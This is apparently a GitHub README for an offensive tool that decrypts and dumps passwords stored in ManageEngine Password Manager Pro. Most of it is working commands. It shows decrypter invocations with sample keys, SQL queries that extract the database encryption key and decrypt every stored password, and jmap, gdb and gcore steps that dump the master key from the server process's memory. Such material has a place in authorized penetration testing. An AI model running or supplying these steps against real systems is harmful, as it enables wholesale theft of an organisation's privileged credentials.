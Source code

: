 # PMP-tool

Some tools for decrypting/dumping Password Manager Pro passwords  

Dependencies:
 - python3
 - pycryptodome
 - pgpy (Only if you wish to decrypt database encrypted data)


## Decrypter

### Examples

Decrypt passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= --file example/decrypted_passwords.txt
```

Decrypt database-encrypted passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --file example/passwords.txt --encrypted
```

Decrypt a single database-encrypted password:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --password wwwECQECsR/EjgtjwlTSUQFN8qQRmKRB0manYvU++KDTurezkOX5QwcrZEMdHLdTbAm1M2qHTUmB8LE5MZ5wDxtpzBR73p02ifya3QY5nVL/0y05/CSyEl7E+BoxrUn8+g== --encrypted
```

## Dumper

TO-DO

## PostgreSQL

You can use this commands (or their MySQL equivalent) to gain some info manually

To get encrypted `DB_ENCRYPTION_KEY` (you can than decrypt it with decrypter):

```SQL
select notesdescription from Ptrx_NotesInfo where noteid = 1;
```

To retrieve encrypted passwords (no database decryption):

```SQL
select encode(password, 'base64') from ptrx_passbasedauthen;
```


To retrieve encrypted passwords:

```SQL
select decryptschar(password, <DB_ENCRYPTION_KEY>) from ptrx_passbasedauthen;
```

OR

```SQL
select pgp_sym_decrypt(password, <DB_ENCRYPTION_KEY>, 's2k-mode=1, cipher-algo=aes256') from ptrx_passbasedauthen;
```

## Memory Dump

If you can execute commands on the host, you can read the PMP key from a file `PMP/conf/pmp_key.key`. However, if the file is removed (according to the deploy instructions), you can try dumping it from memory

*0. Get WrapperSimpleApp PID*

```bash
jps | grep WrapperSimpleApp # Or find it yourself
```

*1. JMAP*

If the host have jdk installed you can simply use Jmap

```bash
jmap -dump:file=dump.dump <process-id>
```

Then analyze the dump with any java heap analyzer tool. For example - [Eclipse Memory Analyzer](https://www.eclipse.org/mat/).  
Load the dump into analyzer (`File -> load heap dump`) and follow `java.net.URLClassLoader -> list objects -> with outgoing references -> classes -> elementData -> <Find the one with class com.adventnet.passtrix.ed.PMPEncryptDecryptImpl> -> pmp32BitKey`

*2. GDB*

**Requires root privileges**

```bash
gdb --batch --pid <process-id> -ex "dump memory mem.dump 0xf5580000 0x100000000" && grep -a -m2 -E "[A-Za-z0-9\+/]{43}=" mem.dump
```

*3. GCORE*

**Requires root privileges**  
Works half of the time `-_0_0_-`

```bash
gcore -a <process-id>
grep -a -E "[A-Za-z0-9\+/]{43}=" core.*
```

